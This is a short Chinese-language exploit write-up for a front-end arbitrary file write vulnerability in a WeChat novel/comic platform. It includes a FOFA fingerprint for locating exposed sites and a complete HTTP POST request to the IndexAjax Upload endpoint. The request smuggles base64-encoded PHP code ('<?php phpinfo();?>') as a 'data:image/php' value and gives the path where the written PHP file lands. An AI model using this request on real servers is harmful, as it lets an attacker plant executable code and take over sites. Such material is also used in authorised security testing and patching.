 # 微信公众号小说漫画系统前台任意文件写入漏洞

微信公众号小说漫画系统前台任意文件写入漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
"/Public/home/mhjs/jquery.js"
```

## poc

```javascript
POST /index.php?m=&c=IndexAjax&a=Upload HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 78
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=bf13e78oe1uqp8nh3crld1gu55; uloginid=107639
Host: 127.0.0.1
Origin: http://127.0.0.1
Pragma: no-cache
Referer: http://127.0.0.1/index.php?m=&c=IndexAjax
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
​
img=data:image/php;base64,YTw/cGhwIHBocGluZm8oKTs/Pg==&size=50
```



文件上传路径` /Public/webuploader/0.1.5/server/upload/1.php`

## 漏洞来源

- https://mp.weixin.qq.com/s/pJSx1c7kguryZs3x2KNpbQ



